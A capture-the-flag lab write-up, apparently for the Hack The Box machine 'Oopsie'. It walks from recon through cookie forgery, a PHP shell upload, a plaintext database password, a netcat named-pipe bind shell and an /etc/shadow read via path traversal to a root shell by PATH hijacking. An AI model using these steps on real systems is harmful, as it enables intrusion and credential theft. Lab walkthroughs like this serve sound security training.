




## Machine Info

**Tags:**

PHP, Web, Custom Applications, Session Handling, Apache, Reconnaissance, Web Site Structure Discovery, Cookie Manipulation, SUID Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, Insecure Direct Object Reference (IDOR), Path Hijacking

## Recon

### port and service scan

- `sudo nmap -sT -sV -sC -O -p22,80,139,445 $IP -oA nmap/detail`

```bash
# Nmap 7.94 scan initiated Tue Nov 21 21:07:51 2023 as: nmap -sT -sV -sC -O -p 22,80 -oA nmap/detail 10.129.95.191
Nmap scan report for 10.129.95.191
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 21 21:08:13 2023 -- 1 IP address (1 host up) scanned in 22.19 seconds
```

- find two services: 22ssh, 80http
- some info

```
MegaCorp, CodePen
admin@megacorp.com
+44 (0)123 456 789
Ubuntu - Apache - PHP
```

### http path scan

- `$ gobuster dir -u $IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.95.191/fonts/]
```

- `$IP/uploads/` is a directory for server to collect uploaded files
- find login page by burp: `http://10.129.95.191/cdn-cgi/login/`



## Foothold

- Guest login -> admin id (`http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1`)

```
Access ID	Name	Email
34322	    admin	admin@megacorp.com
2233	    guest	guest@megacorp.com
```

- manage the admin cookie for visiting this server

```
collect cookie structure:
			{
				"name": "Cookie",
				"value": "user=2233; role=guest" -> "user=34322; role=admin"
			},
```

- find the upload exp -> upload rshell.php -> visit it to execute rshell



- POC: upload file exp




- upload a shell and get a shell




## Privilege Escalation

### www->robert

- enumeration

```
$ uname -a
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.3 LTS"
NAME="Ubuntu"
VERSION="18.04.3 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.3 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

- sudo [x]
- suid guid [x]
- find the file with passwords

```
$ pwd
/var/www/html/cdn-cgi/login
$ ls -al
total 28
drwxr-xr-x 2 root root 4096 Jul 28  2021 .
drwxr-xr-x 3 root root 4096 Jul 28  2021 ..
-rw-r--r-- 1 root root 6361 Apr 15  2021 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5349 Apr 15  2021 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js

$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

- `$ su robert`

```bash
su: must be run from a terminal -> su [x]
```

- shell interactive is not very good; need to be improved

  - new a pipe f and set a new listen port service runing a shell

  ```bash
  $ rm /tmp/f;mkfifo /tmp/f
  rm: cannot remove '/tmp/f': No such file or directory
  $ cat /tmp/f|/bin/bash -i 2>&1|nc -l 4444 >/tmp/f
  $ cat /tmp/f|/bin/bash -i 2>&1|nc -l 4444 >/tmp/f
  ```

  - generate a better shell

  ```bash
  #local
  nc $IP 4444
  export TERM=xterm-color
  dpkg -l | grep python
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

- su robert

### robert->root

- robert enumeration

```bash
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:/$ sudo -l [x]
[sudo] password for robert:
Sorry, user robert may not run sudo on oopsie.
robert@oopsie:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:e9:ee brd ff:ff:ff:ff:ff:ff
    inet 10.129.95.191/16 brd 10.129.255.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb0:e9ee/64 scope global dynamic mngtmpaddr
       valid_lft 86393sec preferred_lft 14393sec
    inet6 fe80::250:56ff:feb0:e9ee/64 scope link
       valid_lft forever preferred_lft forever
```

- find groups: robert + bugtracker

- find -perm u=s -type f 2>/dev/null [x]
- find -perm g=s -type f 2>/dev/null [x]
- find -group bugtracker -type f 2>/dev/null

```bash
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker

robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: aaa
---------------

cat: /root/reports/aaa: No such file or directory
```

- shadow crack [x, unimplemented road]
  - john crack [x]

```bash
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../etc/shadow
---------------

root:$6$eD0n5saZ$orykpdd7mVL/lF57rIGwUzeSROPC1KRITJ45Nqn6P2BLaZ.tcSOy5fNFcOw9uBRkClgu5R9WlyxpEId5qOOVY.:18285:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
sync:*:18113:0:99999:7:::
games:*:18113:0:99999:7:::
man:*:18113:0:99999:7:::
lp:*:18113:0:99999:7:::
mail:*:18113:0:99999:7:::
news:*:18113:0:99999:7:::
uucp:*:18113:0:99999:7:::
proxy:*:18113:0:99999:7:::
www-data:*:18113:0:99999:7:::
backup:*:18113:0:99999:7:::
list:*:18113:0:99999:7:::
irc:*:18113:0:99999:7:::
gnats:*:18113:0:99999:7:::
nobody:*:18113:0:99999:7:::
systemd-network:*:18113:0:99999:7:::
systemd-resolve:*:18113:0:99999:7:::
syslog:*:18113:0:99999:7:::
messagebus:*:18113:0:99999:7:::
_apt:*:18113:0:99999:7:::
lxd:*:18113:0:99999:7:::
uuidd:*:18113:0:99999:7:::
dnsmasq:*:18113:0:99999:7:::
landscape:*:18113:0:99999:7:::
pollinate:*:18113:0:99999:7:::
sshd:*:18284:0:99999:7:::
robert:$6$kriHoPwv$iBt45Fu0g4R0uNWSubfjDRvtUSwxVu.U1JhYKmT4voMWlVc3/u2nu0j0JZL0YWmm62vRgAs4acBl8Ge.S393H/:18285:0:99999:7:::
mysql:!:18284:0:99999:7:::
```

```bash
$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:32:15 98.85% (ETA: 00:34:22) 0g/s 7332p/s 7332c/s 7332C/s 0165048131..0164614254
0g 0:00:32:35 DONE (2023-11-22 00:34) 0g/s 7335p/s 7335c/s 7335C/s !!!playboy!!!7..*7¡Vamos!
Session completed.
[x]
```

- leak root.txt flag (no root priv)

```bash
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../../../root/root.txt
---------------

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

### suid cat

- observe bugtracker bin file (file thisbin)

```bash
robert@oopsie:/$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: qwe
---------------

cat: /root/reports/qwe: No such file or directory
```

- /usr/bin/bugtracker = **cat** /root/reports/qwe (is a **relative** path) -> change **PATH** under robert let cat run shell as root

```bash
robert@oopsie:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/$ export PATH=/tmp:$PATH
robert@oopsie:/$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/$ echo '/bin/bash -p' > /tmp/cat && chmod +x /tmp/cat
robert@oopsie:/$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: qwe
---------------

root@oopsie:/# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
root@oopsie:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:e9:ee brd ff:ff:ff:ff:ff:ff
    inet 10.129.95.191/16 brd 10.129.255.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb0:e9ee/64 scope global dynamic mngtmpaddr
       valid_lft 86398sec preferred_lft 14398sec
    inet6 fe80::250:56ff:feb0:e9ee/64 scope link
       valid_lft forever preferred_lft forever
root@oopsie:/# cd /root
root@oopsie:/root# ls
reports  root.txt
```

